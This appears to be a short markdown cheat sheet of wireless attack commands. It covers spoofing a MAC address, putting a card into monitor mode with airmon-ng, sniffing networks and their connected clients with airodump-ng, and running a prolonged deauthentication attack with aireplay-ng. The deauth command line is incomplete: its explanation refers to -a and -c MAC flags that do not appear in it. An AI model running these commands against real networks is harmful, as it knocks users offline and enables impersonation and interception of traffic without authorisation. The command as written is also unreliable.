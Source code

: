 ### Changes MAC address

sudo ifconfig wlan0 down
sudo ifconfig wlan0 hw ether xx:xx:xx:xx:xx:xx
sudo ifconfig wlan0 up

*************************************************

### Check wireless card adapter

airmon-ng 

*************************************************

### Start airmon-ng by killing the processes in the background. Then use the command to start monitor mode on wlan0 (if that is the wcard you got from the first command)

airmon-ng check kill 
airmon-ng start wlan0 

*************************************************

### For monitoring

airodump-ng wlan0mon

*************************************************

### For monitoring a specific network's users (change channel to its channel and the mac address to the AP's)

airodump-ng --channel 6 --bssid xx:xx:xx:xx:xx:xx wlan0mon

*************************************************

### To deauth: Change 2000 to a higher number for a prolonged effect. Change the first MAC address to the one of the AP to impersonate (-a) and the second to the device's to deauth (-c). Think of -a for AP and -c for client

aireplay-ng --deauth 2000

*************************************************

### To stop and bring back the network adapter in managed mode (aka 'to see the wireless back')

airmon-ng stop wlan0mon
service networking restart
service network-manager restart

*************************************************
